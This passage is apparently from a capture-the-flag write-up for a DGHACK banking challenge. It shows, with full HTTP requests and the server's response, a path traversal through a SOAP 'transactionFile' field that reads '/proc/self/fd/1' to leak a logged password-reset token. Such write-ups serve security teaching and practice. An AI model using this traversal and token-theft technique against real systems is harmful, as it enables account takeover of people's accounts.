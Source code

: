 **Workflow:**

1. *Response hanging* - Read current process STDOUT (`/proc/self/fd/1`) to obtain logs output
2. Trigger a reset password on the customer account, the `token` will be logged on STDOUT
3. *Response release* - Obtain the reset password token on the response body

Request to `POST /service/`:

```
POST /service/ HTTP/1.1
Host: jarjarbank.chall.malicecyber.com
[...]
Content-type: text/xml
Content-Length: 304

<SOAP-ENV:Envelope
    xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/">
    <SOAP-ENV:Header/>
    <SOAP-ENV:Body>
        <ns3:transactionRequest
            xmlns:ns3="http://www.jarjarbank.dghack.fr/xml/">
            <transactionFile>../../proc/self/fd/1</transactionFile>
        </ns3:transactionRequest>
    </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

Trigger a reset password:

```
POST /api/v1/user/resetPassword HTTP/1.1
Host: jarjarbank.chall.malicecyber.com
[...]

email=DGHACKCustomerUser@dghack.fr
```

Response from `POST /services/`:

```xml
<SOAP-ENV:Envelope
    xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/">
    <SOAP-ENV:Header/>
    <SOAP-ENV:Body>
        <ns3:transactionResponse xmlns:ns3="http://www.jarjarbank.dghack.fr/xml/">
            <transactionData>
            2023-12-04T08:13:43.363Z  INFO 1 --- [nio-8080-exec-7] c.d.j.c.v1.api.UserRestController        :
            Reset password token '04CgzNqCoaAufWSxUQQnayPJVV4CuTeN' created for user
                'User {id=3, email='DGHACKCustomerUser@dghack.fr', firstName='Customer', lastName='User', mobileNumber='null', roles=CUSTOMER}'
            </transactionData>
        </ns3:transactionResponse>
    </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
